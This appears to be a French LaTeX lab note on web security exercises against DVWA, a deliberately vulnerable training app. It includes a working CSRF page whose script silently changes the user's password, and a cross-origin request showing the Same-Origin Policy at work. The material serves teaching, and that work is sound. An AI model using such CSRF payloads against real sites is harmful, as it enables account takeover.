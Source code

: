 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}
\item JS onload:
\begin{example} \begin{itemize}
    \item changer le niveau de sécurité à \textit{medium}
    \item créer une nouvelle page dans dvwa: \texttt{sudo nano /var/www/html/DVWA/hack-csrf.html}
\begin{example} \begin{verbatim}
<h1> Hello ù_ù </h1>
<script>
    let url = 'http://192.168.1.13/DVWA/vulnerabilities/csrf/'
            + '?password_new=tttttt&password_conf=tttttt&Change=Change#';
    let xhr = new XMLHttpRequest();     // 1. instantiate the object
    xhr.open('GET', url);               // 2. configure the object
    xhr.send();                         // 3. send the request
</script>
\end{verbatim} \end{example}
    \item aller sur la nouvelle page, puis vérifier le changement de mot de passe
\end{itemize} \end{example}


\item Cross-Domain Scripting:
\begin{example} \begin{itemize}
    \item créer une nouvelle page: \texttt{sudo nano /var/www/html/SOP-01.html}
\begin{example} \begin{verbatim}
<h1> Hello ù_ù </h1>
<script>
    let url = 'http://site.com/';
    let xhr = new XMLHttpRequest();     // 1. instantiate the object
    xhr.open('GET', url);               // 2. configure the object
    xhr.send();                         // 3. send the request
    xhr.onload = function() {
        alert(xhr.response);
    };
</script>
\end{verbatim} \end{example}
    \item aller sur la page \texttt{SOP-01.html}, la restriction SOP devrait empêcher d'afficher le contenu
\end{itemize} \end{example}
\begin{center} \includegraphics[width=0.99\linewidth]{images/SOP-01.PNG} \end{center}



\end{itemize}
\end{document}
